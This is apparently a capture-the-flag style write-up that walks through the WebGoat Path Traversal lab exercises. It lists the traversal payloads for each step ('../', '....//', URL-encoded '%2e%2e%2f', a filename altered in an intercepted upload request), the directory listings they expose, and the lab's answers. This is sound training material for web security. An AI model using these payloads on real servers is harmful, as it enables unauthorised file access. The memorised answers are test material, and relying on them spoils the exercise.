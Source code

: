 # Path Traversal

## 2 - Path Traversal while uploading files

Full Name: `test`, Output: /home/webgoat/.webgoat-8.1.0/PathTraversal/tonnctf/test
Full Name: `../PathTraversal`, Output: Congratulations. You have successfully completed the assignment.
Full Name: `../../PathTraversal`, Output: /home/webgoat/.webgoat-8.1.0/PathTraversal/tonnctf/../../PathTraversal: Is a directory

Answer:
Full Name: `../PathTraversal`

## 3 - Path Traversal While Uploading File
Cannot use ../

Full Name: `%2e%2e%2fPathTraversal`, Output: /home/webgoat/.webgoat-8.1.0/PathTraversal/tonnctf/%2e%2e%2fPathTraversal
Full Name: `../PathTraversal`, Output: Profile has been updated, your image is available at: /home/webgoat/.webgoat-8.1.0/PathTraversal/tonnctf/PathTraversal"
Full Name: `....//PathTraversal`, Output: Congratulations. You have successfully completed the assignment.

Answer:
Full Name: `....//PathTraversal`

## 4 - Path Traversal while uploading file
The developer again became aware of the vulnerability by not validating the input of the full name input field. A fix was made in an attempt to solve this vulnerability.

Again the same assignment but can you bypass the implemented fix?

Answer:
Use burp to intercept the request, and change the filename

------WebKitFormBoundary51OQ5ABzNUi9of3a
Content-Disposition: form-data; name="uploadedFileRemoveUserInput"; filename="../250px-Dummy_Title_Card.jpeg"
Content-Type: image/jpeg

## 5 - Retrieving other files with a path traversal

Change the request URL to below via burp
```GET /WebGoat/PathTraversal/random-picture?id=%2e%2e%2f%2e%2e%2f```

The output 
```
/home/webgoat/.webgoat-8.1.0/PathTraversal/cats/../../data,
/home/webgoat/.webgoat-8.1.0/PathTraversal/cats/../../path-traversal-secret.jpg,
/home/webgoat/.webgoat-8.1.0/PathTraversal/cats/../../PathTraversal,
/home/webgoat/.webgoat-8.1.0/PathTraversal/cats/../../ClientSideFiltering,
/home/webgoat/.webgoat-8.1.0/PathTraversal/cats/../../test,
/home/webgoat/.webgoat-8.1.0/PathTraversal/cats/../../XXE
```

Steps:
1. Turn on the interceptor when click on "Show random cat picture", and change its URL to
```GET /WebGoat/PathTraversal/random-picture?id=%2e%2e%2f%2e%2e%2fpath-traversal-secret HTTP/1.1```

2. The output
```You found it submit the SHA-512 hash of your username as answer```

3. In Ubuntu LTS
```echo -n tonnctf | sha512sum```

Answer: `1b6139b5ce1eb44ace1ae0001b49222de4fe2a8443fdcc5498f1aefa224233057b7e38adc89e3848f1a84d84276701c9b0262e11826eeea3887c81ebccdfdec7`

